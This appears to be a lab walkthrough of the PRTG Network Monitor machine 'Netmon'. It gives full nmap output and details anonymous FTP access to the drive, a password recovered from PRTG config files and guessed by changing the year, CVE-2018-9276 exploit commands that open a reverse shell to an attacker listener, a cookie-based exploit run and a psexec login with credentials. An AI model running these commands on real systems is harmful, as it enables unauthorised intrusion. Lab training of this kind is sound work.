







# Enumeration
- We use nmap to enumerate with `nmap -p- -A -T4 -O 10.10.10.152`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-01 12:07 EST
Nmap scan report for 10.10.10.152
Host is up (0.042s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/1%OT=21%CT=1%CU=43318%PV=Y%DS=2%DC=T%G=Y%TM=65BBD
OS:082%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TS=A)SEQ(SP=106%GCD=1
OS:%ISR=108%CI=RD%TS=A)SEQ(SP=106%GCD=1%ISR=108%CI=RI%TS=A)OPS(O1=M53CNW8ST
OS:11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O5=M53CNW8ST11%O6=M53CS
OS:T11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=8
OS:0%W=2000%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F
OS:=AR%O=%RD=0%Q=)T4(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=N
OS:)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=80%W
OS:=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)I
OS:E(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 12h43m07s, deviation: 0s, median: 12h43m07s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-02-02T05:53:29
|_  start_date: 2024-02-02T05:04:05
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   42.50 ms 10.10.14.1
2   42.57 ms 10.10.10.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 158.82 seconds
                                                                    
```
- We find a website on port 80
- We also find an ftp server with access to c drive
- Searching for data stored by prtg we find that it is stored at:
- Accessing the location using ftp we find config files:
- using get command to download these we search for the default username which is `prtgadmin`
# Exploitation
- We find the login credentials: but it fails
- We try replacing 2018 with 2019 and we are logged in.
- We find an exploit for authenticated user https://github.com/A1vinSmith/CVE-2018-9276 we use the command `./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.25 --lport 4445 --user prtgadmin --password PrTg@dmin2019` to get an admin shell
## Method 2:
- We use the exploit https://www.exploit-db.com/exploits/46527
- A cookie is required for the exploit so we can use burpsuite to intercept
- We run the exploit with `./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0U2OTkwN0UwLTA4NDItNDBDNC1CMzk5LTg2OEYxNjVBM0QwQX0%3D"`
- We can use impacket to get a shell using `psexec.py pentest:'P3nT3st!'@10.10.10.152`
- we can also use wsiexec or smbexec
